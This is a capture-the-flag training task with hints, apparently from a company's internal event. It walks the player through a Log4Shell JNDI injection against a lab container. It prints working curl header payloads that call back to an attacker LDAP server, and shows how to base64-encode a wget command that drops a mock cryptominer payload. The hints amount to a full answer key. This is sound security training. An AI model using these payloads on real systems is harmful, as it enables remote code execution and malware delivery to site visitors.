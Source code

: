 # C1 - File Storage Security - Task 5: Drop It Like It’s Hot 🔥

## DESCRIPTION

Now that you’ve set up the malicious server, it's time to run the exploit.

To do this, you have to make a request to http://sudosingles-optimizer. But you’re going to include a specially crafted header to call back to your malicious LDAP server and execute a command.

For this challenge, the command you want to execute inside the sudosingles-optimizer container will reach out to a malicious URL and drop a scary payload onto the filesystem—a payload which will execute whenever a user visits the website.

## DETAILS

== WHAT DO YOU NEED TO DO? ==
To complete this challenge, you must use a "Basic Command" exploit from JNDIExploit to execute the following command INSIDE THE SUDOSINGLES-OPTIMIZER container:  

wget PAYLOADDROPPERURL -O /srv/connectioncheck

(where PAYLOADDROPPERURL is the value found in FSSPayloadDropperUrl in the credential field below)

== WHAT DOES THIS DO? ==
FSSPayloadDropperUrl is a special URL that can be used to drop a cryptominer onto the host. If you manage to execute that "wget <…>" command inside the sudosingles-optimizer container, you will download a malicious payload from the internet and drop it in the container's file system.

== WHY DO YOU WANT TO DO THIS? ==
All images that appear on the SudoSingles™ website have to pass through the sudosingles-optimizer container for processing. Therefore, if a malicious file is present in the sudosingles-optimizer container, it will be served to ALL USERS of SudoSingles™. That's some good pwnage.

== HOW ARE YOU GOING TO DO THIS? ==
Great question, champ. That's what this challenge is all about. Here's my guidance:

1. Open a new Terminal Emulator window inside the hacker directory and execute the following: "java -jar JNDIExploit-1.2-SNAPSHOT.jar -i $(hostname -I) --usage"
2. This should tell you how to "use" the exploits contained in JNDIExploit. What do you see? Scroll around the output and take note of the options, *especially those at the top of the list*.
3. You already know that you can execute the JNDIExploit's "Basic SpringEcho" exploit using: curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'
4. This time, your task is to use one of the "Basic Command" exploits from JNDIExploit to execute the "wget <…>" command inside the sudosingles-optimizer container.
5. Look at the output of #2. Can you find any information there to help you accomplish #4?
6. If you're trying to execute the "wget <…>" command on the attack machine, you're barking up the wrong tree. Remember, you need to use an exploit from JNDIExploit to execute it on the sudosingles-optimizer container.
7. My last piece of advice, and the only free hint I'll give you, is that you'll need to somehow **encode** the "wget <…>" command in order to execute it using **one of** the "Basic Command" exploits. 

Good luck -- this one can be challenging. Be sure to read carefully and make sure you understand each step. Also, don't be afraid to take the hints. I've written a lot for you, so take advantage of them before bugging Support. Also, remember that you're trying to execute one of the most famous exploits in the last few years. I'm sure there are a few blog posts out there about how it works.

When you believe you’ve successfully performed the exploit, click “Verify” to check your work.

## NOTES

No actual ransomware is used in this challenge, so don’t worry. We’re just having fun here on Tech Day.

## SCORING

payloadChecker

## HINTS

### HINT 1

The exploit you need to run is NOT "/Basic/Command/[cmd]"

### HINT 2

You need to run the "/Basic/Command/Base64/[base64_encoded_command]" exploit. Therefore, your command will look something like: curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/[base64_encoded_command]}'.

### HINT 3

Command still not working? Check out the instructions in the Details section again, especially #7. If you're trying to run "curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/wget PAYLOADDROPPERURL -O /srv/connectioncheck}'", it will never work. Make sure you substitute PAYLOADDROPPERURL in correctly, and then follow the advice of #6 to achieve victory!

### HINT 4

You need to encode the malicious command as base64, and add it to the ldap URL. For example: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/BASE_64_ENCODED_COMMAND}. If that isn’t working for you, triple-check to make sure that you have encoded the malicious command correctly. You can encode the command using any tool you want, but base64encode.org is a great resource.

### HINT 5

1. Craft the malicious command: wget PAYLOADDROPPERURL -O /srv/connectioncheck
2. Encode it as base64 using any tool. Base64encode.org is a great option.
3. Replace it in the command: curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/ENCODED_PAYLOAD}'
4. Execute
5. Verify
